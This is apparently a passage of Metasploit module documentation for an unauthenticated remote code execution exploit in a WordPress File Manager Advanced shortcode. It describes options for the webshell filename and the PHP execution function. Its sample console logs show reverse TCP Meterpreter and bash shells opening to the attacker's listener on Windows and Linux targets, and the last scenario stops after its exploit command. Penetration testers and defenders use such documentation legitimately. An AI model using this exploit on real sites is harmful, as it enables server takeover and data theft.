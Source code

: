 ### TARGETURI
The uripath to the webpage where the file-manager-advanced shortcode is embedded.

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios
### Windows Server 2019 PHP - php/meterpreter/reverse_tcp
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 2a1a319c46
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.55
[+] Deleted KBWxIdRChosZC.php
[*] Meterpreter session 1 opened (192.168.201.10:4444 -> 192.168.201.55:50380) at 2023-06-28 14:13:07 +0000

meterpreter > sysinfo
Computer    : WIN-BJDNH44EEDB
OS          : Windows NT WIN-BJDNH44EEDB 10.0 build 17763 (Windows Server 2016) AMD64
Meterpreter : php/windows
meterpreter > getuid
Server username: SYSTEM
meterpreter >
```
### Kali Linux Server Unix Command -  cmd/unix/reverse_bash
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. fmakey successfully retrieved: 5a669fda54
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted LlCresesS.php
[*] Command shell session 5 opened (192.168.201.10:4444 -> 192.168.201.10:56290) at 2023-06-28 15:34:20 +0000

uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-03) aarch64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Kali Linux Server Linux Dropper -  linux/aarch64/meterpreter_reverse_tcp
```
msf6 exploit(multi/http/wp_plugin_fma_shortcode_unauth_rce) > exploit

```